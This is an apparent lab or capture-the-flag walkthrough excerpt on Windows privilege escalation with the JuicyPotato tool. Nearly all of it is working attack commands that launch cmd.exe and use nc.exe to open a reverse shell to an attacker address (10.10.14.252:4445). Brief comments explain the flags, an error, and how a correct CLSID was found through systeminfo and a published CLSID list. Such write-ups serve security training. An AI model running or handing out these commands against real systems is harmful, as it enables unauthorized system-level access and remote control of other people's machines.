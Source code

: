     # run the exploit
    C:\Windows\Temp\JuicyPotato.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe 10.10.14.252 4445 -e cmd.exe" -t *
    # -l is COM server listening port, on which it listens for incoming connections
    # -p is program to launch
    # -t is createprocess call

    # this command does not work and throws an error
    # 'COM -> recv failed with error: 10038'
    # we need to get the correct CLSID first

    systeminfo
    # note down OS Name and system type
    # in this case - Microsoft Windows Server 2016 Standard, x64-based

    # we can get the CLSID for JuicyPotato
    # from - https://github.com/ohpe/juicy-potato/tree/master/CLSID

    # we can try checking with common CLSIDs from the list for the system

    C:\Windows\Temp\JuicyPotato.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe 10.10.14.252 4445 -e cmd.exe" -t * -c '{b8f87e75-d1d5-446b-931c-3f61b97bca7a}'

    C:\Windows\Temp\JuicyPotato.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe 10.10.14.252 4445 -e cmd.exe" -t * -c '{B91D5831-B1BD-4608-8198-D72E155020F7}'
    # this works and we get reverse shell on our second listener
    ```
